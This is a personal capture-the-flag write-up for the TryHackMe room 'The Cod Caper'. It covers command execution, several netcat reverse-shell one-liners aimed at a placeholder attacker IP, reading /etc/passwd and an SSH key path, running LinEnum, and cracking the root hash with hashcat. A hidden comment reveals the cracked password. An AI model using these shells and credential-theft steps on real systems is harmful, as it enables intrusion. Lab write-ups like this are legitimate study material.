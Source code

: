 ```yaml
---
title: THM The Cod Caper
date: 2021-01-13 22:50:00 +0000
categories: [Security, TryHackMe]
tags: [thm, codcapper, writeup]     # TAG names should always be lowercase
---
```


## Task 5
> Command Execution

We got access to a web page where we can run some linux command and receive the result directly in our webpage.
Try basic stuf like pwd or ls give us some result.
```console
ls -l | wc -l
```
to have the number of files inside current directory.

Checking /etc/passwd we found a user named pingu.

Did not succeed to have a stable shell with netcat
```console
nc -e /bin/sh <ip> <port>
```
or even more complicated with something like 
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f)
```
Success to have a reverse shell with
```console
mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

```console
find / -user pingu
```
we found the path to the ssh rsa key (cat /home/pingu/.ssh/id_rsa)
Did not succeed to hack the RSA passphrase

After some research inside the box, we found an interresting folder in ``` /var ```. Password of pingu is inside.

## Task 6
> LinEnum

Choose a metod to send LinEnum.sh file into the target system (SCP or setup a simpleHTTPServer inside your own attack machine).
Then, upgrade the permission with ``` chmod +x LinEnum.sh ``` and then execute ``` LinEnum.sh ``` and, as specified inside the room, check the SUID files analysis result. You will easily found the requested one.

Try to execute this file without success. It seems that the file is waiting for an entry. Let's continue the room.

## Task 7
> pwndbg

Nothing to do, just follow the room description and do it to understand

## Task 8
> Binary-Exploitation: Manually

Nothing to do, just follow the room description and do it to understand

## Task 9
> Binary-Exploitation: The pwntools way

Nothing to do, just follow the room description and do it to understand

## Task 10
> Finishing the job

```console
hashcat -a 0 -m 1800 root.hash /usr/share/wordlists/rockyou.txt
```
We have quickly an answer (less than 10min on my machine):
```console
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:l*******h
```
<!-- $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:love2fish -->

